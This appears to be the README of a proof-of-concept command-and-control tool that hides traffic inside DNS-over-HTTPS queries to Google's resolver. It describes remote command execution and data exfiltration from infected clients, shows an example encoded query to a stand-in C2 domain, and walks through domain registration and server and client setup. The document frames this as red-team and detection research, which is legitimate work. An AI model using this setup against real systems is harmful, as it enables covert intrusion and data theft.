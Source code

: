 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

The python program on the client side sends HTTPS request (TCP/443) to DoH Server to resolve a destination domain where the c2 is hosted, e.g send.example.com.co using a  the legit DOH server, json query like https[:]//dns.google.com/resolve?name=google.com &type=TXT  
An attacker can use the part which is between the name and ‘&’ to inject txt record which is not bigger than 512 bytes of size e.g https[:]//dns.google.com/resolve?name=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co&type=TXT  
'SINGLE-1-K5EE6QKNJEFA===='  => the base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI )  
send.example.com.co => the DNS c2 server  
The belnet.be is instructed to query the send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co then returns back txt record in which instructions are send what the client needs to perform next. Bellow is example it the answer section of the response are the instructions the client/malware will execute.  

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips TODO
